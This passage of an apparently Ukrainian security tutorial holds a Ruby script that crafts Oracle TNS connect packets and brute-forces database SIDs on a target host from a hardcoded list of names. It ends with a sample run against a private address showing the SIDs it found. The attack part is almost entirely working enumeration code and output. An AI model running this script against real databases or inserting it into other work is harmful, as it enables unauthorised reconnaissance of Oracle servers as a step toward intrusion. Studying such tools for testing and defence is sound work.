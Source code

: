 ```ruby
  # Line Turnaround Value
  pkt << "\x00\x00"
  # Value of 1 in Hardware
  pkt << "\x00\x01"
  # Length of Connect Data
  pkt << [connect_data.length].pack('n')
  # Offset to Connect Data
  pkt << "\x00\x3A"
  # Maximum Receivable Connect Data
  pkt << "\x00\x00\x00\x00"
  # Connect Flags 0
  pkt << "\x00"
  # Connect Flags 1
  pkt << "\x00"
  # Trace Cross Facility Item 1
  pkt << "\x00\x00\x00\x00"
  # Trace Cross Facility Item 2
  pkt << "\x00\x00\x00\x00"
  # Trace Unique Connection ID
  pkt << "\x00\x00\x34\xE6\x00\x00\x00\x01"
  # Connect Data
  pkt << "\x00\x00\x00\x00\x00\x00\x00\x00"
  pkt << connect_data

  return pkt

end

#
# SID Request Data
#
def sid_request(sid,host, port)
  connect_data = "(DESCRIPTION=(CONNECT_DATA=(SID=#{sid})(CID=(PROGRAM=)(HOST=__jdbc__)(USER=)))(ADDRESS=(PROTOCOL=tcp)(HOST=#{host})(PORT=#{port})))"
  pkt = tns_packet(connect_data)
end


sids = [ 'N00TEXIST', 'PLSExtProc', 'ORACLE', 'ORA', 'ORA1', 'ORA2', 'XE', 'SOA', 'SOA1', 'SOA2', 'DBA1', 'DBA2' 'HR', 'HR1', 'HR2','SAP', 'TEST']

sids.each do |sid|
  s = TCPSocket.new host, port.to_i
  s.send sid_request(sid, host, port), 0
  response = s.recv(1000)
  puts "[+] Found SID: " + sid if response.scan(/ERROR/).empty?
#   puts "[+] No SID: " + sid , response unless response.scan(/ERROR/).empty?
  s.close
end

```
Запустіть скрипт:
```
ruby tns_brute.rb 192.168.0.13 1521

[+] Found SID: PLSExtProc
[+] Found SID: XE
```
